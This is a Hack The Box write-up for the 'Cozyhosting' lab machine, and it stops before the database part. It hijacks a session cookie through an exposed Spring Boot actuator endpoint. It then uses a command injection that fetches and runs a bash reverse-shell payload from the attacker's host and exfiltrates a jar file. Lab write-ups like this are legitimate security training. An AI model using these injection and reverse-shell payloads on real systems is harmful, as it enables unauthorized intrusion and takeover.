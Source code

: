 # Machine: Cozyhosting [Hacked]
This is the fifteenth machine I have completed on the hackthebox platform. 
### Scan
IP_MACHINE: ip of cozyhosting
```
  nmap -sC -sV -p- --min-rate 5000 IP_MACHINE
```
add the domain cozyhosting.htb to the /etc/hosts file and open [ Burpsuite > Proxy > Open Browser ] navigate to route cozyhosting.htb/login. And do a login test with the credentials test:test
### Cookie Hijacking
open the [ Developer Tools > Application > Cookies > http://cozyhosting.htb/ ]. Where we can see a cookie that has been generated when trying to log in
```
JSESSIONID:VALUE
```
Now we will use gobuster to discover hidden directories:
```
gobuster dir --url http://cozyhosting.htb/ --wordlist $HOME/SecLists/Discovery/Web-Content/spring-boot.txt
### this is the one we are interested in: /actuator/sessions
```
We open a new tab and go to http://cozyhosting.htb/actuator/sessions where we can see a cookie generated that does not have authorization and another that does belong to the user Khanderson. 
then we copy it and replace it in our cookie [ Developer Tools > Application > Cookies > http://cozyhosting.htb/ ] and refresh the page.
### Admin dashboard
Now that we have logged in to the administration panel of the web application, we activate burpsuite traffic interception (Intercept is on). and enter the following values in the connection fields at the end of the Dashboard. We capture the POST method in Burpsuite and send it to [Burpsuite > Repeater].
```
Hostname: IP_MACHINE
Username: test
```
## Getting a reverse shell
already in [Bursuite > Repeater] we have the following message body
```
 host=IP_MACHINE&username=test
```
On our machine, we create a *payload.txt* file with the following content ( MY_IP: the IP address of our machine )
```
bash -i >& /dev/tcp/MY_IP/1234 0>&1
```
we initialize an http server on port 80
```
sudo python3 -m http.server 80
```
in a new terminal we initialize netcat
```
nc -nlvp 1234
```
now we manipulate the message body that we send to [Burpsuite > Repeater]
```
# Burpsuite payload
host=IP_MACHINE&username=$(curl$IFS"MY_IP"/payload.txt|bash)
```
With that we have a reverse shell and when we execute "ls" we discover a file called cloudhosting-0.0.1.jar that we will download locally on our machine to reverse engineer it. then within the reverse shell that we did to cozyhosting we started an http server.
```
# cozyhosting reverse shell
python3 -m http.server
```
To download it to our local machine we use:
```
# local machine
wget IP_MACHINE/cloudhosting-0.0.1.jar
```
## Exploiting the database
#### To be continued... 
